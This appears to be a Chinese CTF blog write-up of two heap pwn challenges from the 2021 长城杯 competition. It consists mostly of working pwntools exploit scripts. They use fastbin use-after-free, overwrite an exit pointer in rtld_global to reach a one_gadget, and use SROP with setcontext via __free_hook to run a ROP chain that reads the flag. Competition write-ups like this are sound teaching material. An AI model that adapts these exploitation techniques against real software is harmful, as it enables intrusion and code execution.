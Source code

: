 ```yaml
---
title: 长城杯 2021 Pwn
categories:
- CTF/Pwn
tags: 
---
```


> 许久未见我这水平能做的堆了...

## K1ng_in_h3Ap_I

> uaf直接写fastbin的fd，没有简单的leak，rtld_global上面找了一个0x7f，不断的往下写，要写4次，复用3848的exit的函数指针高字节，写底3字节到one_gadget。

附件：[K1ng_in_h3Ap_I.zip](https://xuanxuanblingbling.github.io/assets/attachment/ccb/K1ng_in_h3Ap_I.zip)

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./pwn")
libc   = ELF("./libc.so")
#io = process(myelf.path,env={"LD_PRELOAD" : libc.path})
#io = process(myelf.path)
io = remote("47.104.175.110",20066)

sla     = lambda delim,data :  io.sendlineafter(delim,data)
add     = lambda idx,size   :  (sla(">>","1"),sla(":",str(idx)),sla(":",str(size)))
free    = lambda idx        :  (sla(">>","2"),sla(":",str(idx)))
edit    = lambda idx,data   :  (sla(">>","3"),sla(":",str(idx)),sla(":",str(data)))
leak    = lambda            :  (sla(">>","666"))

leak()
io.recvline()
libc.address = int(io.recvline(),16) - libc.symbols['printf']
log.success(hex(libc.address))

def aaw_on_libc(pad1,pad2,addr,data):
    add(5,pad1)
    add(0,0x60)
    add(1,0x60)
    add(2,240)
    add(3,0x60)
    free(2)
    add(4,0x60)

    free(0)
    free(1)
    free(0)

    edit(0,pad2)
    edit(4,addr)

    add(7,0x60)
    add(7,0x60)
    add(7,0x60)
    edit(7,data)
    add(8,0x80)

one_gadget  = libc.address + 0xf1247
rtld_global = libc.address + 0x5f0040

exit_1_addr = rtld_global  + 3493
exit_2_addr = rtld_global  + 3596
exit_3_addr = rtld_global  + 3699
exit_4_addr = rtld_global  + 3802

aaw_on_libc(0x80,"\x70",p32(exit_1_addr)[:3],'\x00'*0x5f+'\x7f')
aaw_on_libc(0xb0,"\x80",p32(exit_2_addr)[:3],'\x00'*0x5f+'\x7f')
aaw_on_libc(0xb0,"\x90",p32(exit_3_addr)[:3],'\x00'*0x5f+'\x7f')
aaw_on_libc(0xb0,"\xa0",p32(exit_4_addr)[:3],"\x00"*30+p32(one_gadget)[:3])

free(100)
io.interactive()
```

## K1ng_in_h3Ap_II

> 任意edit任意show，禁了execve，SROP作栈迁移，ORW

附件：[K1ng_in_h3Ap_II.zip](https://xuanxuanblingbling.github.io/assets/attachment/ccb/K1ng_in_h3Ap_II.zip)

- [C 沙盒逃逸](https://ctf-wiki.org/pwn/sandbox/seccomp/c-sandbox-escape/?h=setcontext#_2)
- [setcontext 函数exploit](http://blog.eonew.cn/archives/993)

```python
from pwn import *
context(os='linux', arch='amd64',log_level='debug')

myelf = ELF('./pwn')
libc = ELF('./libc.so')
io = process(myelf.path,env={"LD_PRELOAD" : libc.path})

sla     = lambda delim,data :  io.sendlineafter(delim,data)
add     = lambda idx,size   :  (sla(">>","1"),sla(":",str(idx)),sla(":",str(size)))
free    = lambda idx        :  (sla(">>","2"),sla(":",str(idx)))
edit    = lambda idx,data   :  (sla(">>","3"),sla(":",str(idx)),sla(":",str(data)))
show    = lambda idx        :  (sla(">>","4"),sla(":",str(idx)))
uu64    = lambda data       :  u64(data.ljust(8, b'\0'))


# leak heap
add(0,0x60)
show(0)
io.recvuntil(b'\n')
heap = uu64(io.recv(6)) - 0xb20
log.success(hex(heap))

# leak libc
add(1,0x50)
free(1)
edit(1, p64(heap+0x2a0))
add(1, 0x50)
add(1, 0x50)
show(1)
io.recv()
libc.address = uu64(io.recv(6)) + 0x1620
log.success(hex(libc.address))

def aaw(addr,data,idx,size):
    add(idx,size)
    free(idx)
    edit(idx,p64(addr))
    add(idx,size)
    add(idx,size)
    edit(idx,data)

frame = SigreturnFrame()
frame.rdi = 0
frame.rsi = heap+0x500
frame.rdx = 0x1000
frame.rip = libc.sym['read']
frame.rsp = heap+0x500

aaw(heap+0x200,bytes(frame)[:0x60],2,0x60)
aaw(heap+0x260,bytes(frame)[0x60:0xc0],2,0x60)
aaw(heap+0x2c0,bytes(frame)[0xc0:],2,0x40)

aaw(heap+0x200,"",3,0x30)
aaw(libc.symbols["__free_hook"],p64(libc.sym['setcontext'] + 53),2,0x20)
free(3)

r = ROP(libc, base=heap+0x500)
r.call('open',  ['./flag', 0, 0])
r.call('read',  [3, heap+0x900, 0x100])
r.call('write', [1, heap+0x900, 0x100])

io.sendline(flat(r.build()))
io.interactive()
```